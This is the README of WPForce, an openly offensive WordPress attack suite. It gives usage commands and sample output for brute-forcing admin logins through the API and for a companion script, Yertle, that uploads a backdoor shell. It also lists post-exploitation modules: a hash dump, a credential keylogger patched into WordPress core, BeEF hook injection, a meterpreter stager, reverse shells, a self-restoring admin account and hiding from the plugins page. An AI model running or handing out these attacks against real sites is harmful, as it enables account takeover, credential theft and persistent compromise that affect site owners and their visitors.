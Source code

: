 ![Supported Python versions](https://img.shields.io/badge/python-2.7-blue.svg)
# WPForce - Wordpress Attack Suite 

## ABOUT:
WPForce is a suite of Wordpress Attack tools.  Currently this contains 2 scripts - WPForce, which brute forces logins via the API, and Yertle, which uploads shells once admin credentials have been found.  Yertle also contains a number of post exploitation modules.

For more information, visit the blog post here: 
https://www.n00py.io/2017/03/squeezing-the-juice-out-of-a-compromised-wordpress-server/

Blogs in other languages: 

Chinese -    www.mottoin.com/100381.html 

Portuguese - http://www.100security.com.br/wpforce/ 

Spanish -    http://www.1024megas.com/2017/05/wpforce-fuerzabruta-postexplotacion.html 

Russian -    https://hackware.ru/?p=2547

French -     https://securityhack3r.info/wpforce-brute-force-attack-tool-wordpress/ 

Turkish -    http://turkhackteam.org/web-server-guvenligi/1655005-wordpress-site-sizma-testi-part-1-a.html


## FEATURES:
* Brute Force via API, not login form bypassing some forms of protection
* Can automatically upload an interactive shell
* Can be used to spawn a full featured reverse shell
* Dumps WordPress password hashes
* Can backdoor authentication function for plaintext password collection
* Inject BeEF hook into all pages
* Pivot to meterpreter if needed


## INSTALL:
```
Yertle requires the requests libary to run.
http://docs.python-requests.org/en/master/user/install/
```

## USAGE:
```
python wpforce.py -i usr.txt -w pass.txt -u "http://www.[website].com"

   ,-~~-.___.       __        __ ____   _____
  / |  x     \      \ \      / /|  _ \ |  ___|___   _ __  ___  ___
 (  )        0       \ \ /\ / / | |_) || |_  / _ \ | '__|/ __|/ _ \.
  \_/-, ,----'  ____  \ V  V /  |  __/ |  _|| (_) || |  | (__|  __/
     ====      ||   \_ \_/\_/   |_|    |_|   \___/ |_|   \___|\___|
    /  \-'~;   ||     |
   /  __/~| ...||__/|-"   Brute Force Attack Tool for Wordpress
 =(  _____||________|                 ~n00py~

Username List: usr.txt (3)
Password List: pass.txt (21)
URL: http://www[website].com
--------------------------
[xxxxxxxxxxxxx@gmail.com : xxxxxxxxxxxxx] are valid credentials!  - THIS ACCOUNT IS ADMIN
--------------------------
--------------------------
[xxxxxxxxxxxxx@icloud.com : xxxxxxxxxxxx] are valid credentials!
--------------------------
 100% Percent Complete
All correct pairs:
{'xxxxxxxxxxxxx@icloud.com': 'xxxxxxxxxxxxx', 'xxxxxxxxxxxxx@gmail.com': 'xxxxxxxxxxxxx'}

 -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        Input file name
  -w WORDLIST, --wordlist WORDLIST
                        Wordlist file name
  -u URL, --url URL     URL of target
  -v, --verbose         Verbose output. Show the attemps as they happen.
  -t THREADS, --threads THREADS
                        Determines the number of threads to be used, default
                        is 10
  -a AGENT, --agent AGENT
                        Determines the user-agent
  -d, --debug           This option is used for determining issues with the
                        script.


python yertle.py -u "[username]" -p "[password]" -t "http://www.[website].com" -i
     _..---.--.    __   __        _   _
   .'\ __|/O.__)   \ \ / /__ _ __| |_| | ___
  /__.' _/ .-'_\    \ V / _ \ '__| __| |/ _ \.
 (____.'.-_\____)    | |  __/ |  | |_| |  __/
  (_/ _)__(_ \_)\_   |_|\___|_|   \__|_|\___|
   (_..)--(.._)'--'         ~n00py~
      Post-exploitation Module for Wordpress

Backdoor uploaded!
Upload Directory: ebwhbas
os-shell>



  -h, --help            show this help message and exit
  -i, --interactive     Interactive command shell
  -r, --reverse         Reverse Shell
  -t TARGET, --target TARGET
                        URL of target
  -u USERNAME, --username USERNAME
                        Admin username
  -p PASSWORD, --password PASSWORD
                        Admin password
  -li IP, --ip IP       Listener IP
  -lp PORT, --port PORT
                        Listener Port
  -v, --verbose         Verbose output.
  -e EXISTING, --existing EXISTING
                        Skips uploading a shell, and connects to existing
                        shell


```

Yertle currently contains these modules:

```
Core Commands
=============
 
Command                   Description
-------                   -----------
?                         Help menu
beef                      Injects a BeEF hook into website
dbcreds                   Prints the database credentials
exit                      Terminate the session
hashdump                  Dumps all WordPress password hashes
help                      Help menu
keylogger                 Patches WordPress core to log plaintext credentials
keylog                    Displays keylog file
meterpreter               Executes a PHP meterpreter stager to connect to metasploit
persist                   Creates an admin account that will re-add itself
quit                      Terminate the session
shell                     Sends a TCP reverse shell to a netcat listener
stealth                   Hides Yertle from the plugins page
```
